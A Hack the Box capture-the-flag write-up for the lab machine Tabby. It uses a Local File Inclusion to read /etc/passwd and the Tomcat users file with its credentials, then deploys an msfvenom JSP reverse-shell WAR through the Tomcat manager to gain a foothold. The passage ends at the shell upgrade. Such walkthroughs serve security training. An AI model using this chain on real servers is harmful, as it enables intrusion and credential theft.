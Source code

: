 # Hack the Box - Tabby

```CSS
Machine IP: 10.10.10.194 - Linux

```

---

```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.194 -T4 --min-rate 1000 -oN ports.nmap
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-22 11:08 IST
Nmap scan report for 10.10.10.194
Host is up (0.19s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/22%OT=22%CT=1%CU=42207%PV=Y%DS=2%DC=I%G=Y%TM=646B001
OS:B%P=x86_64-pc-linux-gnu)SEQ(SP=FD%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11
OS:NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.91 seconds
```

```CSS
▶ nmap -sC -sV -p 22,80,8080 10.10.10.194 -oN services.nmap
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-22 11:10 IST
Nmap scan report for 10.10.10.194
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 453c341435562395d6834e26dec65bd9 (RSA)
|   256 89793a9c88b05cce4b79b102234b44a6 (ECDSA)
|_  256 1ee7b955dd258f7256e88e65d519b08d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mega Hosting
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.13 seconds
```

---

# Port 80
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/bb960e94-7b85-470f-8501-04813c7744df)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/a1ad3174-c498-4e0b-afc7-11faaf051616)
 
- Add the domain name `megahosting.htb` to the `/etc/hosts` file.
```CSS
▶ sudo -- sh -c "echo '10.10.10.194 megahosting.htb' >> /etc/hosts"
```

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/028519af-034e-4a45-993d-937fa894b7e1)

---

## Local File Inclusion (LFI)
We notice that we are being redirected to http://megahosting.htb/news.php?file=statement. It's worth noting that `statement` seems to be a filename passed as input to the parameter `file` of the page news.php . Let's check if this is vulnerable to Local File Inclusion (LFI), by trying to load the `/etc/passwd` file.

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/afb98396-df84-4b56-b9ef-ce367446f0f7)

---

# Port 8080
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/bb40c443-61df-487a-afdb-2559da6a6ee6)

---

### Content Discovery
Brute-force the URL path to look for some common hidden directories and files.
```CSS
▶ gobuster dir --url http://megahosting.htb:8080 --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --threads 25
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/230e9c6b-b14c-4504-81aa-5dce91f80bd1)
Scanning reveals the well-known Tomcat `/manager` page. This is a default page that allows users to manage web applications.

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/2db1b182-901d-42aa-8e29-4770a7036509)
Tomcat's manager page requires authentication. Attempting to log in with common credentials like admin / admin is not successful.

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/b8d36d51-f02c-4ba2-af1f-730dd251cf30)
However, on clicking cancel we get a 401 Unauthorized message. This page reveals that the credentials are in the file `conf/tomcat-users.xml`. 

Navingating to the location of the `tomcat-users.xml` using the LFI as mentioned, returns a blank page.

Checking if the file `tomcat-users.xml` is located in a different path inside Tomcat's default installation directory.
- Tomcat default installation directory: `/usr/share/tomcat9/`.
- Default location of `tomcat-users.xml`: `etc/tomcat-users.xml`.

The final path should be: `/usr/share/tomcat9/etc/tomcat-users.xml`.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/c5629bff-e6c1-4aff-9036-8681fa3cdf40)

The file contains the credentials `tomcat /$3cureP4s5w0rd123!`.
As the roles xml attribute shows that this user is a member of admin-gui and manager-script . The manager-gui role that allows access to the /manager page is not assigned.

Brute-force the URL path `/manager/` to look for some common hidden directories and files.
```CSS
▶ gobuster dir --url http://megahosting.htb:8080/manager --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --threads 25
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/992d8893-58ec-4b66-888b-8968af93f140)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4f0c0678-6876-453b-92d0-76be836774fa)

---

# FootHold
### Tomcat Hostmanager App -- Text Interface

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/be4402eb-551e-4078-9f5b-cb2b3fcf7c15)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/92f28d3e-5c14-4f78-b315-a6f3efeead26)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/1553e220-3e63-4dfb-8c07-66e948dfe48c)

#### Tomcat - List Available Hosts
```CSS
▶ curl -u 'tomcat':'$3cureP4s5w0rd123!' http://megahosting.htb:8080/manager/text/list
```

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/42031ecc-31dd-4de8-951b-45e6f289a28d)
This is successful. It is also well-known that Tomcat deploys Java web applications. Check if a project can be deployed using the text interface.

---

#### Tomcat - Deploy A New Application Archive (WAR) Remotely

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d59e8d16-7194-467c-acf5-414070103283)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/cd72da1d-5248-4869-af37-051ddbb153c8)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/032ae345-7ee6-42e3-b0fc-f6987c9c8475)
According to this, it is possible to create a war file and deploy it to the server. A war file is an archived Java application.

### Generate Reverse Shell
```CSS
▶ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=31337 -f war > shell.war
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f44669aa-d4ae-48e7-836b-7518d8d00c94)

#### Deploy the Shell
```CSS
▶ curl -u 'tomcat:$3cureP4s5w0rd123!' http://megahosting.htb:8080/manager/text/deploy?path=/hardyboy --upload-file shell.war
```
#### Setup Netcat Listener
```CSS
▶ nc -nlvvp 31337
```
#### Trigger the Shell
```
▶ curl http://megahosting.htb:8080/hardyboy/
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/c096b735-8537-416a-b909-c2f654bb309e)

Shell Upgrade:
```CSS
▶ python3 -c 'import pty; pty.spawn("/bin/bash")'
```
---

